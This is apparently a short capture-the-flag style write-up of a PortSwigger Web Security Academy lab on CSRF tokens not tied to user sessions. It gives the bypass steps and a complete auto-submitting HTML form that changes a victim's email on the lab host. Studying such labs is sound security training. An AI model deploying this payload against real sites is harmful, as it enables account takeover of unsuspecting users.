

# Lab: CSRF where token is not tied to user session

**Link**: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

**Solution**:

The idea he is not validate the csrf token with user session (current logged in)

so copy the csrf token of another user and replace it with your victim html payload like the following
- Intercept the request from another user
- Copy the csrf token
- Drop the request (don’t complete it) because its unique
- Past it in any other payload
- It works 😃
  
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af7006003dc676ac2bc4823001e00e8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="mohamed&#46;abdelrahman9996&#64;yahoo&#46;comaa" />
      <input type="hidden" name="csrf" value="f2qEt8YKPB2YMdoDK7LuRKhEXNjE7hXu" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<p align="center" width="100%">
  
</p>
